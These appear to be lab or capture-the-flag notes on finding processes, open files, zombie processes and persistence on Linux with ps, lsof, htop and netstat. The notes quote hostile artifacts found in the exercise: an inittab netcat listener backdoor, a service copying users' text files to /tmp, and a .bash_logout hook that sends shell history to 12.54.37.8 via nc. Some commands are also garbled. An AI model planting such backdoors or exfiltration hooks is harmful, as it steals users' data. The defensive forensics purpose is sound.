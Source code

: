 
------------------------------------------
# Finding the parent process ID of the user logged in shell
```shell
ps -elf --forest
    #this will show the parent pcoress binaries that ran a program
```
-------------------------------------------
# find a daemon argument
```shell
ps -elf #identify if the "PROCESS NAME"d daemon is running
ps -elf --forest | grep "PROCESS NAME"d # grep out the "PROCESS NAME"d daemon
#With the below output you can see arguments sent to the "PROCESS NAME" daemon
CODE OUPUT;
5 S ssh       "pid"    1  0  80   0 - 23949 -      May04 ?        00:00:47 /usr/sbin/"PROCESS NAME"d -p /var/run/ssh.pid -g -u105:109
 0 S bombadil  4436  3956  0  80   0 -  3179 -      14:49 pts/0    00:00:00              \_ grep ssh
#looking at the end of the "PROCESS NAME"d you can see the given argument (-p /var/run/"PROCESS NAME"d.pid -g -u 105:109)
```
-------------------------------------------

# Identify the file mapped to the fourth file descriptor (handle) of the cron process.
```shell
#Look for FILE DESCRIPTORS
sudo lsof | Less #List-Open-Files(LSOF) 
sudo lsof | grep cron #lsof and grep out cron. look for fourth "FILE" descriptor
[lsof] /cron #this will search for the cron string. Then looking for the descriptor column
OUTPUT cron       1327            root    3u      REG               0,19        5      11513 /run/crond.pid
```   
-------------------------------------------
# find file permissions
```shell
sudo lsof | Less #view open files
[lsof] /cron #this will search for the cron string. Then looking for the descriptor column. answer is 3u
OUTPUT cron       1327            root    3u      REG               0,19        5      11513 /run/crond.pid
```
-------------------------------------------
# orphans processes on the SysV system.
```shell
htop #run htop to view currently running processes
f5 #this will show the tree for child processes
```
-------------------------------------------
# finding zombie processes
```shell
htop #look for process spawning zombie processes
    #zombie processes will show a "z"
```
-------------------------------------------
# find strange port
```shell
htop #run htop to view binaries being ran with additonal /binbash command/arguments
nestat -ano #also useful
```
-------------------------------------------
# find a process. find symbolic link to the absolute path for its EXECUTABLE

```shell
ps -elf | grep ssh #lists the current processes, grepping ssh
sudo find /proc/XXXX -type l -ls | grep ssh #This will look in the proc folder for links grepping ssh
#OUTPUT;
sudo find /proc/XXXX -type l -ls | grep ssh

 1---------      0 lrwxrwxrwx   1 root     root            0 May 16 15:02 /proc/XXXX/exe -> /usr/sbin/XXXX #This is the symbolic link of the executable to the ssh binary
```
---------------------------------------------
# find file using A UDP/TCP CONNECTION ON A PORT
```shell
netstat -ano # This will show your open sockets and established/listening lines
sudo lsof -i :xxx #this will search files open using socket 123
#OUTPUT;
sudo lsof -i :123
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
"PROCESS NAME"d    "pid" "PROCESS NAME"   16u  IPv6  11574      0t0  UDP *:"PROCESS NAME"
"PROCESS NAME"d    "pid" "PROCESS NAME"   17u  IPv4  11577      0t0  UDP *:"PROCESS NAME"
"PROCESS NAME"d    "pid" "PROCESS NAME"   18u  IPv4  11582      0t0  UDP localhost:"PROCESS NAME"
"PROCESS NAME"d    "pid" "PROCESS NAME"   19u  IPv4  11584      0t0  UDP 10.10.0.7:"PROCESS NAME" #here is the UDP connection information being stored w/PID "CHANGE PID"
"PROCESS NAME"d    "pid" "PROCESS NAME"   20u  IPv6  11586      0t0  UDP ip6-localhost:"PROCESS NAME"
"PROCESS NAME"d    "pid" "PROCESS NAME"   21u  IPv6  11588      0t0  UDP [fe80::f816:3eff:fede:a244]:"PROCESS NAME"

sudo lsof | grep "pid"| grep 10.10.0.7 #run lsof grepping a line w/PID and UDP information
sudo lsof | grep 10.10.0.7 | grep "CHANGE PID"
xxx      "pid"            "PROCESS NAME"   19u     IPv4              11584      0t0        UDP 10.10.0.7:xxx
#This is how you would see secuirty descriptor and permissions, the PROCESS NAME = "PROCESS NAME"d FILE = 19, PERM = u
```
---------------------------------------------  
# FIND STRANGE PORT AND PERSISTANCE
```shell
netstat -ano #identifiy strange port thats open
htop #use this to see parent process for suspect port listener
cat /etc/inittab #View the inittab boot confirguation file to find suspect persistance
#suspect output within inittab file

91:2345:respawn:/bin/netcat -lp xxxx #perisitance entry in startup file
```
---------------------------------------------

# FIND ZOMBIES SPAWNING STUFF
```powershell
htop
    f5 #open htop and to find zombie creator
    cp /home ~/Desktop;
    ls -l /home/ #cd into the directory
    cat  #view the cfor each and the ip its going to 
 ```
 ---------------------------------------------
# find file that creates zombie process
```shell
htop, then f5 # this will show tree
sudo lsof | grep "PID"" #get the pid and do an LSOF of the pid to get the files
    cat /opt/mysoul
```
---------------------------------------------
# determine theft of user logs
```shell
go into etc/systemd/system
find / -type f -exec grep -H '~/. IMPORTANTBASHFILE ' {} \;
sudo find / -type f -exec grep -H '.IMPORTANTBASHFILE' {} \;
# this command will look for a file that is tryign to look for a txt
#Look through the below folders with the command unitl you find the string
ANSWER==find /home -name \*.txt -exec cp {} /tmp \;,SERVICENAME.service
service running, check systemd
/bin/bash -c 'find /home -name \*.txt -exec cp {} /tmp \;,SERVICENAME.service
```
---------------------------------------------------
# find service stealing data
```shell
#After viewing the below informaiton you can determine the command is being ran with the persistance being the .timer
# go into /lib/systemd/system and LS services
#cat the services
```
-----------------------------------------------------
# find users losing credentials

```shell
cat /etc/passwd | grep -v nologin | grep -v false #view the /etc/passwd to view user with a /bin/false or "nologin. These users will not have an interactive login
sudo find / -name .IMPORTANTBASHFILE; #look for which users have a IMPORTANTBASHFILE file
#Output
garviel@terra:~$ sudo find / -name .IMPORTANTBASHFILE;
/home/garviel/.IMPORTANTBASHFILE
/tmp/.IMPORTANTBASHFILE
/root/.IMPORTANTBASHFILE
#being search other psrts of the drive for a string containsd the .IMPORTANTBASHFILE
/etc/apparmor.d/abstractions/bash:  @{HOME}/.IMPORTANTBASHFILE 
grep -r ".IMPORTANTBASHFILE" /lib     #System Libraries
/srv     #Service Data Directory began looking for direcotires containsing the bash file
#####
start looking in the .IMPORTANTBASHFILE files located in all users location
grep -r ".IMPORTANTBASHFILE" 

/tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2,IP:PORT

# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy
###Output
if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
history -w /tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2
nc -w2 12.54.37.8 12000 < /tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2
/home/garviel/.bash_logout,12.54.37.8:12000



```


